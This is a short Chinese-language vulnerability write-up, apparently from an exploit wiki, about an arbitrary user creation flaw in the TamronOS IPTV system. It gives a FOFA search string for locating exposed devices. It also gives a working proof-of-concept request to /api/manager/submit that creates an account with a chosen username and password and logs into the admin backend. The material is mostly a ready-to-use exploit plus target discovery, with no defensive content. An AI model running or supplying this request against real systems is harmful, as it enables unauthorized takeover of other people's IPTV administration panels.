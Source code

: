 # TamronOS IPTV系统 submit 任意用户创建漏洞

## 漏洞描述

TamronOS IPTV系统 /api/manager/submit 存在任意用户创建漏洞，攻击者通过漏洞可以任意用户创建进入后台

## 漏洞影响

<a-checkbox checked>TamronOS IPTV系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="TamronOS-IPTV系统"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](/assets/PeiQi-Wiki/img/image-20210615145308242-20220313155156716.png)



漏洞POC为

```plain
/api/manager/submit?group=1&username=test&password=123456
```

![img](/assets/PeiQi-Wiki/img/image-20210615145547635.png)

```plain
user: test
pass: 123456
```

![img](/assets/PeiQi-Wiki/img/image-20210615145605871.png)